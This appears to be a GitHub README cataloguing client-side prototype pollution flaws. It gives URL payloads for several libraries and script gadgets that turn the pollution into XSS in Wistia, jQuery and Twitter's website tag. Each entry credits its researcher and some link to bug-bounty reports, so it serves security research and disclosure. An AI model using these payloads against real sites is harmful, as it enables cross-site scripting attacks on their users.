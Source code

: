 # Client-Side Prototype Pollution

## Intro

If you are unfamiliar with Prototype Pollution Attack, you should read the following first:  
[JavaScript prototype pollution attack in NodeJS](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf) by Olivier Arteau  
[Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) by Michał Bentkowski

In this repository, I am trying to collect examples of libraries that are vulnerable to Prototype Pollution due to `document.location` parsing and useful script gadgets that can be used to demonstrate the impact.

## Prototype Pollution

| Name                                                    | Payload                                                                  | Refs                                        | Found by                                         |
|---------------------------------------------------------|--------------------------------------------------------------------------|---------------------------------------------|--------------------------------------------------|
| Wistia Embedded Video (**Fixed**)                       | `?__proto__[test]=test`<br>`?__proto__.test=test`                        | [[1]](https://hackerone.com/reports/986386) | [William Bowling](https://twitter.com/wcbowling) |
| [jQuery query-object plugin](/pp/jquery-query-object.md)| `?__proto__[test]=test`<br>`#__proto__[test]=test`                       |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery Sparkle](/pp/jquery-sparkle.md)                 | `?__proto__.test=test`                                                   |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [V4Fire Core Library](/pp/v4fire-core.md)               | `?__proto__.test=test`<br>`?__proto__[test]=test`                        |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |

## Script Gadgets

| Name                                                    | Payload                                                                  | Impact                    | Refs                                        | Found by                                            |
|---------------------------------------------------------|--------------------------------------------------------------------------|---------------------------|---------------------------------------------|-----------------------------------------------------|
| [Wistia Embedded Video](/gadgets/wistia-video.md)       | `?__proto__[innerHTML]=<img/src/onerror=alert(1)>`                       | XSS                       | [[1]](https://hackerone.com/reports/986386) | [William Bowling](https://twitter.com/wcbowling)    |
| [jQuery >= 3.0.0](/gadgets/jquery.md)                   | `?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script`          | XSS                       |                                             | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Twitter Universal Website Tag](/gadgets/twitter-uwt.md)| `?__proto__[hif][]=javascript:alert(1)`                                  | XSS                       |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
